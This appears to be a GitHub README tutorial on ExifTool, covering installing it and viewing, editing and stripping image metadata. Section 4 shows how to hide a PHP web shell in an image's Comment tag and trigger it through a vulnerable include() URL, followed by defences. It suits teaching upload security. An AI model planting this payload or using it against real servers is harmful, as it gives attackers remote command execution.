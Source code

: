
![image](https://github.com/user-attachments/assets/3796b8d2-2b25-43ad-9537-5029b1f2a7c0)


## 1. What is ExifTool?

**ExifTool** is a free command-line application used to **read**, **modify**, and **delete** metadata stored inside digital media files such as images, videos, and audio files.
Metadata is hidden information inside these files describing properties like:

* Camera details (model, manufacturer)
* Date and time when the image or video was created
* Camera settings like ISO, shutter speed, focus
* GPS coordinates showing where the photo was taken
* Other info such as the author’s name or software used for editing

---

## 2. Installing ExifTool

* **On Windows:**
  Download ExifTool from the official website [**https://exiftool.org**](https://exiftool.org/)
  Rename the downloaded file from `exiftool(-k).exe` to `exiftool.exe` and place it in a convenient folder so you can run it from the command prompt.

* **On Linux (Debian/Ubuntu):**
  Open terminal and run:

  ```bash
  sudo apt install libimage-exiftool-perl
  ```

* **On macOS:**
  If you have Homebrew installed, run:

  ```bash
  brew install exiftool
  ```

---

## 3. Basic ExifTool Commands

### 3.1 View all metadata in an image file

```bash
exiftool image.jpg
```

This command reads and displays all metadata stored inside the file `image.jpg`.
The output can be very long, so you may want to scroll or search within it.

---

### 3.2 List all available metadata tags in detail

```bash
exiftool -a -s -G1 image.jpg
```

* `-a`: Show duplicate tags
* `-s`: Show tag names only (short format)
* `-G1`: Show tag groups (e.g., EXIF, IPTC, XMP)

This command helps you identify exact tag names to edit or remove.

---

### 3.3 Modify a specific metadata tag

For example, changing the Artist or Author tag:

```bash
exiftool -Artist="John Doe" image.jpg
```

This sets the `Artist` tag in `image.jpg` to "John Doe".

---

### 3.4 Remove specific metadata tags

For example, remove GPS location data:

```bash
exiftool -GPSLongitude= -GPSLatitude= image.jpg
```

This deletes the GPS longitude and latitude metadata tags from the image.

---

### 3.5 Remove all metadata from an image

```bash
exiftool -all= image.jpg
```

This command removes all metadata but keeps the image file intact.

---

### 3.6 Remove all metadata without keeping a backup

By default, ExifTool keeps a backup copy of the original file. To overwrite without backup:

```bash
exiftool -all= -overwrite_original image.jpg
```

---

### 3.7 Copy metadata from one image to another

```bash
exiftool -TagsFromFile source.jpg target.jpg
```

Copies all metadata tags from `source.jpg` to `target.jpg`.

---

### 3.8 Batch edit metadata for multiple files

Change a tag for all images inside a directory and its subdirectories:

```bash
exiftool -r -Artist="John Doe" directory/
```

`-r` means recursive into subdirectories, and `directory/` is the folder name.

---

### 3.9 Export metadata to CSV file

Export specific metadata fields to a CSV for analysis:

```bash
exiftool -csv -r -f -FileName -DateTimeOriginal directory/ > metadata.csv
```

---


<p align="center">
  <img src="https://github.com/user-attachments/assets/7786216b-1599-4744-ae91-962e94ecab64" alt="image" />
</p>


## 4. Using ExifTool in File Upload Vulnerabilities

### 4.1 Background on File Upload Vulnerabilities

Websites often restrict file uploads to safe file types (like images) to prevent malicious files (e.g., PHP scripts) from being uploaded and executed.

Attackers can sometimes **hide malicious code inside image metadata** and upload images to bypass restrictions.

---

### 4.2 How to inject malicious code using ExifTool

You can embed PHP code inside metadata tags like `Comment`.

Example to inject a PHP web shell inside an image:

```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' innocent.jpg
```

This command inserts PHP code into the `Comment` tag of `innocent.jpg`.

---

### 4.3 Exploiting the injected image

If the target website includes or executes the uploaded image file (e.g., via PHP `include()`):

```php
include("uploads/" . $_GET['img']);
```

Then visiting:

```
http://target.com/uploads/innocent.jpg?cmd=ls
```

will execute the `ls` command on the server, giving you a web shell.

---

### 4.4 Common metadata tags used for code injection

| Tag Name         | Notes                                            |
| ---------------- | ------------------------------------------------ |
| Comment          | Most commonly used tag for injection             |
| UserComment      | Supports Unicode, harder to filter               |
| ImageDescription | Used by some image viewers or tools              |
| Title            | Sometimes displayed or indexed by search engines |

---

### 4.5 How to defend against this attack

* Never use `include()` or `eval()` on uploaded files directly.
* Strip metadata from uploaded images immediately after upload:

  ```bash
  exiftool -all= -overwrite_original uploaded.jpg
  ```
* Validate file types by checking the actual file content (magic bytes), not just the file extension.
* Apply strict file upload restrictions and filtering.

---

## 5. Summary of Important ExifTool Commands

| Purpose                                | Command                                                                     |
| -------------------------------------- | --------------------------------------------------------------------------- |
| View all metadata                      | `exiftool file.jpg`                                                         |
| List all metadata tags                 | `exiftool -a -s -G1 file.jpg`                                               |
| Modify a tag                           | `exiftool -tag=value file.jpg`                                              |
| Remove a specific tag                  | `exiftool -Tag= file.jpg`                                                   |
| Remove all metadata                    | `exiftool -all= file.jpg`                                                   |
| Remove all metadata without backup     | `exiftool -all= -overwrite_original file.jpg`                               |
| Copy metadata from one file to another | `exiftool -TagsFromFile source.jpg target.jpg`                              |
| Batch edit metadata                    | `exiftool -r -tag=value directory/`                                         |
| Export metadata to CSV                 | `exiftool -csv -r -f -FileName -DateTimeOriginal directory/ > metadata.csv` |

---

